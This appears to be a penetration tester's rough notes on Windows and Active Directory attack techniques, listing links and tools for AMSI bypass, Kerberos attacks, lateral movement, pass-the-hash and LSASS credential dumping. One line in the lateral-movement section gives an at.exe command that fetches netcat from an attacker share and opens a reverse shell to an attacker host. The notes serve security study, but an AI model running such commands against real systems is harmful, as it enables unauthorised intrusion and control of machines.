

using socks5

```
nano /etc/proxychains.conf 

sock5 ip port user password

proxychains firefox

```

# AMSI bypass

https://www.hackingarticles.in/a-detailed-guide-on-amsi-bypass/

 Antimalware Scan Interface (AMSI) standard that allows a developer to integrate malware defense in his application. AMSI allows an application to interact with any anti-virus installed on the system and prevent dynamic, script-based malwares from executing

amsi byoass with a single command:
https://news.sophos.com/en-us/2021/06/02/amsi-bypasses-remain-tricks-of-the-malware-trade/

# looking at ad enumeration

even without an ad user cann connect to a workgroup
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology

## kerberoas attacks
Kerberos
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberos-authentication

# lateral movement

https://hackmag.com/security/lateral-guide/

approach

sieze control over the domain controllers
reach to isolated critical network segments
search for critical information stored in a certain PC

impacket tools
MSRPC - smb via named pipes
psexec.exe - no av risk, legitimate
psexec.py - from impacket or services.py for manual entering of commands
winexe
smbexec.py - just for msrp.py
atexec.py/ at.exe this helps in remote schedule tasks
`at.exe \\target 13:37 "cmd /c copy \\attacker\a\nc.exe && nc -e \windows\system32\cmd.exe attacker 8888"`
reg.exe - writing to registry remotely
dcomexec.py - wmiexec
wmi
sc.exe
winrm - evilwinrm
winrs.exe and powershell
xfreerdp
GP

### Pass the hash

without cracking the password we can get:


kali linux has many pth - pass the hash tools


# dumping credentials with mimikatz

https://www.whiteoaksecurity.com/blog/attacks-defenses-dumping-lsass-no-mimikatz/

windows defender credential Guard prevents access to LSASS





what to do
1. get a proxychain access to the machine
2. 


